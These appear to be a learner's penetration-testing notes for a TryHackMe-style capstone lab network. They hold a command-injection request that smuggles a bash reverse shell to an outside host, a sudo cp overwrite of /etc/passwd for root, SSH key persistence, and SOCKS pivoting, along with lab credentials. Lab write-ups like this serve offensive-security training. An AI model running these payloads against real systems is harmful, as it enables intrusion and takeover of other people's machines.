 # Modify and connect the ovpn
```bash
ip a
11: capstone: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.50.50.170/24 scope global capstone
       valid_lft forever preferred_lft forever
    inet6 fe80::7e0e:b09d:91f1:64d6/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
12: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 12.100.1.9/24 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::bac5:cf03:b243:de6d/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
```

It works under the capstone network vpn only.

To perform a ping sweep on the IP range 12.100.1.0/24 (which includes addresses from 12.100.1.0 to 12.100.1.255), you can use the following one-line bash script:

```bash
for ip in 12.100.1.{1..255}; do ping -c 1 -W 1 $ip >/dev/null && echo "$ip is up"; done

12.100.1.1 is up <- !
12.100.1.9 is up
```

* https://unix.stackexchange.com/questions/16500/how-to-refuse-routes-that-are-pushed-by-openvpn-server
* https://openvpn.net/community-resources/setting-up-routing/

### Update the ovpn file
```ovpn
remote 10.200.52.12 1194
pull-filter ignore "route 172."
route 10.200.52.21 255.255.255.255 12.100.1.1
route 10.200.52.22 255.255.255.255 12.100.1.1
```

```bash
sudo openvpn corpUsername.ovpn

2023-05-31 15:39:22 TUN/TAP device tun0 opened
2023-05-31 15:39:22 net_iface_mtu_set: mtu 1500 for tun0
2023-05-31 15:39:22 net_iface_up: set tun0 up
2023-05-31 15:39:22 net_addr_v4_add: 12.100.1.9/24 dev tun0
2023-05-31 15:39:22 net_route_v4_add: 10.200.52.21/32 via 12.100.1.1 dev [NULL] table 0 metric 1000
2023-05-31 15:39:22 net_route_v4_add: 10.200.52.22/32 via 12.100.1.1 dev [NULL] table 0 metric 1000
```


# Generate new ovpn
Login with the creds first through web portal:
```txt
laura.wood@corp.thereserve.loc Password1@
mohammad.ahmed@corp.thereserve.loc Password1!
```

It prevents you from kicking out by having your own ovpn file.

# Hack the VPN server instead of using ovpn
Login with the creds first. This way is more stable to get DC. Chisel from WRK1 to DC also doable, but not as stable as ssh tunneling since that's under rdp.

### Command Injection
```bash burp
GET /requestvpn.php?filename=qwer%40corp.thereserve.loc+%26%26+bash+-i+>%26+/dev/tcp/10.50.115.198/80+0>%261 HTTP/1.1
```

### Privilege Escalation via cp

https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/

##### Kali
```bash
openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```

##### Victim (VPN server)
```bash
www-data@ip-10-200-113-12:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-200-113-12:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-200-113-12:
    (root) NOPASSWD: /home/ubuntu/openvpn-createuser.sh, /bin/cp
www-data@ip-10-200-113-12:/tmp$ sudo /bin/cp passwd /etc/passwd
sudo /bin/cp passwd /etc/passwd
www-data@ip-10-200-113-12:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<mp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-200-113-12:/tmp$ su baturu
su baturu
Password: pass123

root@ip-10-200-113-12:/tmp# whoami
whoami
root
```

### SSH as root
```bash
# grab the pub
ssh-keygen -t rsa -b 4096 -C "baturu@thm.com"

echo "ssh-rsa SNIP== xxx@thm.com" >> authorized_keys
```

### Setup SSH Pivoting
```bash
ssh -D 1085 root@$IP -i id_rsa
```

```conf
# Change to 1085 for THM Capstone
# Others might choose 1080 or 9050 since the popularity
# socks4 	127.0.0.1 1085
socks5 	127.0.0.1 1085
```
-> Go to DC after pivoting